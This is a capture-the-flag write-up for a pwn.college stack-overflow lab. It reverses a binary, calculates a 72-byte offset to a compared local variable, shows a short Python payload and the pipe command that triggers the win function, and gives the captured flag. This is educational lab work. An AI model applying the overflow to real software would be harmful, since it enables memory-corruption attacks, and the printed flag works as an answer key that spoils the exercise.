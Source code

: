 # Variable Control (hard)

## Challenge
This challenge is identical to its "easy" version from a security perspective, but has the following changes:

- Unlike the easy version, it does not give you helpful debug output. You will have to recover this information using a debugger.
- The source code is not provided. You will need to reverse-engineer the binary, but remember, the challenge is conceptually the same as the easy version, so it can be helpful to have the easy version's source code as a secondary reference during your reversing process!
- Some randomization is different. Buffers might have different lengths, offsets might vary, etc. You will need to reverse engineer this information from the binary!

## Solve
**Flag:** `pwn.college{Iytg-wWXkaL8EazOV8cu_NwV8dZ.QX4UzMzwyNyAzNzEzW}`

#### What the Program Does?
Like the previous one, the challenge:
- Allocates a stack frame and a local buffer.
- Reads bytes from stdin into that buffer.
- Later, it loads a **4-byte local variable** from the stack (`mov -0x18(%rbp), %eax`) and compares that 32-bit value to the constant `0x5d36dc0a`.
- If equal, it calls the `win` function.
    ```assembly
      40206e:       3d 0a dc 36 5d          cmp    $0x5d36dc0a,%eax
      402073:       75 0a                   jne    40207f <challenge+0x11f>
      402075:       b8 00 00 00 00          mov    $0x0,%eax
      40207a:       e8 da fd ff ff          call   401e59 <win>
  ```
#### Aim:
Place the required 32-bit value at the right spot on the stack.

#### Where to place the magic number - offset math
From the assembly, we can infer that:
```asm
buffer base:       -0x60  <-- read writes starting here
...
buffer + 0x48:     -0x18  <-- program reads 4 bytes here into EAX and compares
...
canary location:   -0x8   <-- saved stack canary (if we overwrite past this, stack check fails)
```
We need the magic to live at address -0x18(%rbp) but read starts at -0x60(%rbp).

Compute difference:
- `0x60` minus 0x18:
    - `0x60 = 96` (decimal)
    - `0x18 = 24` (decimal)
    - `96 - 24 = 72` (decimal)
    - `72` decimal = `0x48` hex

So the magic must begin **72 bytes (0x48)** after the buffer start.
That means: `72 bytes filler + 4 bytes magic` = the bytes that land at `-0x18`.

We use a custom script to pass the number to the executable.
**Also, keep the little-endian in mind while writing the payload.**

#### Python Script Used
```python
payload = b'A'*0x48 + b'\x0a\xdc\x36\x5d'   # 0x48 filler, then 0x5d36dc0a little-endian
open('payload.bin','wb').write(payload)
```
#### Commands used after creating the script
```
python script.py
cat payload.bin | /challenge/./binary-exploitation-var-control
```

## New Learnings
- Disassembling binaries.
- Reading assembly.
